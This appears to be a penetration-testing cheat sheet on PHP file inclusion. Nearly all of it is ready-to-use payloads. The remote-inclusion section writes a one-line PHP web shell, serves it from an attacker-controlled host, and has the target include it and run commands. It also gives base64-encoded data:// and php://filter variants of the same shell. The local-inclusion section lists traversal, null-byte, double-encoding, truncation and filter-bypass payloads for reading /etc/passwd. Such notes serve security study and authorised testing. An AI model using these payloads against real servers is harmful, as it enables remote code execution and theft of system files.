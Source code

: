 ```yaml
---
layout:
  width: wide
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# File Inclusion

## Remote File Inclusion (RFI)

If we find a way to include a remote file, we could try to include php code to execute commands on the host

```powershell
http://<target>/index.php?page=http://<attacker>/shell.txt
```

We could serve a malicious PHP code so that the host interprets it.

```bash
echo '<?php system($_GET["cmd"]);?>' > shell.txt
python3 -m http.server 80
curl 'http://<target>/index.php?page=http://<attacker>/shell.txt&cmd=<comand>'
```

If the server were blocking access to external resources, we could try using the `data://` wrapper to inject PHP code as base64.

{% code overflow="wrap" %}
```powershell
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K

php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K
```
{% endcode %}

## Local File Inclusion (LFI)

### Absolute Path

```powershell
http://<target>/index.php?page=/etc/passwd
```

### Relative Path Traversal

```powershell
http://<target>/index.php?page=../../../etc/passwd
```

### Null Byte

```powershell
http://<target>/index.php?page=../../../etc/passwd%00
```

### Encoding

```powershell
http://<target>/index.php?page=%252e%252e%252fetc%252fpasswd
http://<target>/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

### Truncation

```powershell
http://<target>/index.php?page=../../../etc/passwd......[ADD MORE]
http://<target>/index.php?page=../../../[ADD MORE]../../../etc/passwd
```

### Filtered characters

```powershell
http://<target>/index.php?page=....//....//....//etc/passwd
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)\
[https://book.hacktricks.xyz/pentesting-web/file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
